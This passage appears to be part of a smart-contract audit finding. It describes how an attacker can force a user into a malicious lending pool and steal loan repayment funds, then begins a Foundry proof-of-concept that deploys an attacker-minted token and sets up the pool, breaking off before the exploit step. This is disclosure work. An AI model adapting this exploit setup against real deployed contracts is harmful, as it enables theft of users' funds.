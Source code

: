 ### Impact

The attacker forced the user to interact with a malicious pool. In case of the `repay` function, the attacker stole all the funds that should be paid to the loan from the user.

### PoC
Run command: `forge test --match-path test/PoC/PoC.t.sol`

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.19;

import {DataTypes} from 'contracts/core/pool/configuration/DataTypes.sol';
import {IPool} from 'contracts/interfaces/pool/IPool.sol';
import {INFTPositionManager} from 'contracts/interfaces/INFTPositionManager.sol';

import {IERC20} from '@openzeppelin/contracts/token/ERC20/IERC20.sol';
import {ERC20} from '@openzeppelin/contracts/token/ERC20/ERC20.sol';

import {Test, console} from '../../lib/forge-std/src/Test.sol';
import {DeployNFTPositionManager} from 'test/forge/core/positions/DeployNFTPositionManager.t.sol';

contract AttackerToken is ERC20 {
    constructor() ERC20('XYZ', 'XYZ') {
        _mint(msg.sender, 100 ether);
    }
}

contract PoC is DeployNFTPositionManager {
    address alice = makeAddr('alice');
    address attacker = makeAddr('attacker');

    IPool attackerPool;
    IERC20 attackerToken;

    function setUp() public {
        _setUpPool();
        _setup();

        // The attacker created a malicious pool `attackerPool`
        _setupAttackerPool();
    }

    function _setupAttackerPool() internal {
        address[] memory assets = new address[](2);
        assets[0] = address(tokenA);
        // The attacker created a malicious token `attackerToken`
        vm.prank(attacker);
        attackerToken = new AttackerToken();
        assets[1] = address(attackerToken);

        address[] memory rateStrategyAddresses = new address[](2);
        rateStrategyAddresses[0] = address(irStrategy);
        rateStrategyAddresses[1] = address(irStrategy);

        address[] memory sources = new address[](2);
        sources[0] = address(oracleA);
        sources[1] = address(oracleA);

        DataTypes.InitReserveConfig memory config = _basicConfig();

        DataTypes.InitReserveConfig[] memory configurationLocal = new DataTypes.InitReserveConfig[](2);
        configurationLocal[0] = config;
```